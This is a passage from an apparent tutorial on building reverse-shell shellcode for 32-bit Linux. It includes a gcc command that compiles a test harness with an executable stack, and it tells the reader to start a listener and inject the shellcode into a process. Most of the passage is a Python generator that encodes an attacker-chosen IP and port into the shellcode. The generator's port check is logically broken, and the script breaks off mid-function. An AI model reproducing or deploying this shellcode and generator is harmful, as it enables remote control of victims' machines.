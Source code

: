 Compile, prepare listener and run:          
```bash
gcc -z execstack -m32 -o run run.c
./run
```

![run C code](./images/14/2021-10-16_14-03.png){width="80%"}       

As you can see, everything work perfectly. Now, you can use this shellcode and inject it into a process.   

But there is one caveat. Let's go to make the ip and port easily configurable.    

### configurable IP and port

To solve this problem I created a simple python script (`super_shellcode.py`):
```py
import socket
import argparse
import sys

BLUE = '\033[94m'
GREEN = '\033[92m'
YELLOW = '\033[93m'
RED = '\033[91m'
ENDC = '\033[0m'

def my_super_shellcode(host, port):
    print (BLUE)
    print ("let's go to create your super shellcode...")
    print (ENDC)
    if int(port) < 1 and int(port) > 65535:
        print (RED + "port number must be in 1-65535" + ENDC)
        sys.exit()
    if int(port) >= 1 and int(port) < 1024:
        print (YELLOW + "you must be a root" + ENDC)
    if len(host.split(".")) != 4:
        print (RED + "invalid host address :(" + ENDC)
        sys.exit()

    h = socket.inet_aton(host).hex()
    hl = [h[i:i+2] for i in range(0, len(h), 2)]
    if "00" in hl:
        print (YELLOW)
        print ("host address will cause null bytes \
        to be in shellcode :(")
        print (ENDC)
    h1, h2, h3, h4 = hl

    shellcode_host = "\\x" + h1 + "\\x" + h2
    shellcode_host += "\\x" + h3 + "\\x" + h4
    print (YELLOW)
    print ("hex host address:")
    print (" x" + h1 + "x" + h2 + "x" + h3 + "x" + h4)
    print (ENDC)

    p = socket.inet_aton(port).hex()[4:]
    pl = [p[i:i+2] for i in range(0, len(p), 2)]
    if "00" in pl:
        print (YELLOW)
        print ("port will cause null bytes \
        to be in shellcode :(")
        print (ENDC)
    p1, p2 = pl

```
